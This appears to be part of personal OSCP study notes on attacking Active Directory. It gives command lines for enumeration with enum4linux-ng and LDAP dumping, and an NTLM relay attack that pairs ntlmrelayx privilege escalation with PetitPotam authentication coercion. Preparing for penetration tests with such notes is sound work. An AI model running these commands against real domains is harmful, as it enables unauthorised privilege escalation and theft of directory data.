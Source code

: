 ```
WinRM HTTP port 5985, WinRM HTTPS port 5986
```

### :open_file_folder: Flow (WIP)

![AD drawio](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/AD/AD.drawio.png)

### :open_file_folder: Commands And Tools

service scan, domain information, check for ```null sessions```, shares 

[enum4linux-ng](https://github.com/cddmp/enum4linux-ng)

```shell
enum4linux-ng -A <target ip> 
# -A all simple enumeration
```

Enumerating Users

add target domain /etc/hosts, if needed

```shell
127.0.0.1 localhost
<target domain ip> <Active Directory Domain>
```

NTLM relay attack

https://en.hackndo.com/ntlm-relay/ <br>
https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-efsr

```shell
# listening
python3 ntlmrelayx.py --remove-mic --escalate-user <username> -t ldap://<attacker ip> -smb2support  
# launch
python3 PetitPotam.py -d <domain> -u <username> -p <password> <attacker ip> <target ip>
```

Dumping LDAP

```shell
ldapsearch -LLL -x -H ldap://<target ip> -b '' -s base '(objectclass=*)'
# with credential, e.g., domain = test.local
# pay attention to each user's information, for example, the samaccountname
ldapsearch -H ldap://<target ip> -x -W -D "<username>@test.local" -b "dc=<test>,dc=<local>"
ldapsearch -H ldap://<target ip> -x -W -b "dc=<test>,dc=<local>"
# check the dump file's content, e.g., domain_users.json, the value of key "info"
ldapdomaindump -u '<domain>\<username>' -p '<password>' <HOSTNAME or target ip>
```

other LDAP queries tool

```shell
# https://github.com/ropnop/go-windapsearch
./windapsearch -d <domain> --dc <domain controller>
```
